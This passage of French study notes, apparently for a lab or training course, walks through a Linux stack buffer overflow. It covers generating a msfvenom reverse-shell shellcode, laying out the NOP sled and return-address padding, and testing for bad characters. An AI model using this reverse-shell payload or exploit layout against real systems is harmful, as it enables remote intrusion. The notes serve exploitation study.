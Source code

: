 
1. Générer un shellcode avec msfvenom (reverse shell), identifier le payload size et reserver au moins le double.

```shell-session
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```


Rajouter des NOPS (no operations) entre le buffer et le shellcode (optionnel)

1. We need a total of X octets to get to the `RIP`.
2. Here, we can use an additional `100 octets` of `NOPs`
3. `150 octets` for our `shellcode` (payload size x2).
4. 8 bytes for the RIP

  Determine the Length for Shellcode

```shell-session
   Buffer = "\x55" * (<nb_caractères> - 100 - 150) = ?
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x41" * 6 + "\x41" * 2
```

exemple avec 1036 octets pour arriver à l'EIP
![[Pasted image 20250523011000.png]]

# 3. Identifier les mauvais caractères


Identifier les caractères rejetés par l'applications (entre x00 et xff)

1. Genérer la liste de caractère suivante 

```shell-session
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

2. Calculer la longueur de char (logiquement 256 octets)

```shell-session
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

3. Recalculer la taille du buffer
